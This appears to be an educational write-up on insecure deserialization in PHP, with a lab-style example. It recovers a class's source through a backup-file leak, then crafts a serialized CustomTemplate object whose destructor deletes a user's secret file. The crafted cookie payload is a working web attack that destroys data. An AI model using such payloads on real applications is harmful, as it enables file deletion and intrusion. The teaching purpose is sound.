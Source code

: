 In OOP, the methods available to an object are determined by its class. Therefore, if an attacker is able to manipulate which class of object is being passed in as serialized data, they can influence what code is executed during or after the deserialization process.

This vulnerability that occur due to insecure deserialization can open up many more exploit possibilities within an application. Since deserialization methods usually do not check for the object or class type of the data they are deserializing. An attacker can pass objects of any serializable class that is available to the application, allowing them to create instances of arbitrary classes.

While the unexpected object type might cause an exception in the application logic, the malicious object would have already been instantiated by then (magic methods).
## Example
1. Assume that an application uses a serialization-based session mechanism and the Base64-encoded cookie has the following value:
```txt
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"p6nx41urdx3n2b1i6mjire5kplcktral";}
```
2. The application deserializes this data using PHP's `unserialize()` function to recreate objects from the serialized representation.
3. An attacker was able to perform information disclosure by adding `~` at the end of the URL (`target.com/CustomTemplate.php~`) and is able to view the following file:
```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}
?>
```
4. An attacker can then create their own serialized data using the class and object above, and replace the cookie value and submit it to the application:
```txt
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/secret.txt";}
```
5. When the application deserializes the data above, it instantiates the attacker-controlled class (`CustomTemplate`), executing the malicious code, in this example, to delete a file from a user's directory, within the application's context.